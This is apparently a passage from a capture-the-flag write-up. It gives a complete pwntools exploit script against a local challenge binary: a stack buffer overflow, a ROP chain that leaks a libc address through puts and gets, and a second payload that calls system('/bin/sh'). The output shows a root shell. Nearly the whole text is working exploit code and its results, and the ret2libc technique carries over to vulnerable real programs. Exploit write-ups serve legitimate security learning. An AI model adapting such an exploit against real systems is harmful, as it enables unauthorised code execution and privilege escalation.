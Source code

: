 <br>

#### Script 4:

```py
from pwn import *

p = process('./chall')

OFFSET = 0x100 + 8 # 0x100 is size of our variable, 8 is our saved rbp
PUTSPLT = 0x401050
GETSGOT = 0x404020
POPRDI = 0x4011f3
MAIN = 0x401156

payload = b"A" * OFFSET
payload += p64(POPRDI) + p64(GETSGOT) # place GETSGOT into RDI
payload += p64(PUTSPLT) # call puts(GETSGOT)
payload += p64(MAIN) # loop back to main for round 2 exploit

p.sendline(payload)

p.recvuntil(b"A"*OFFSET)
extra = u64(p.recvline().strip().ljust(8, b'\x00'))
leak = u64(p.recvline().strip().ljust(8, b'\x00'))

log.info(f"leak: {hex(leak)}")

LIBCGETSOFFSET = 0x75b60
LIBCSYSTEMOFFSET = 0x48e50

libcbase = leak - LIBCGETSOFFSET
libcsystem = libcbase + LIBCSYSTEMOFFSET
binsh = libcbase + 0x18a156

payload2 = b"A" * OFFSET
payload2 += p64(POPRDI) + p64(binsh)
payload2 += p64(libcsystem)

p.sendline(payload2)

p.interactive()
```

Running this script, we get a `shell()` !!

```
[x] Starting local process './chall'
[+] Starting local process './chall': pid 11487
[*] leak: 0x7f2babd92b60
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)

$ whoami
root
```
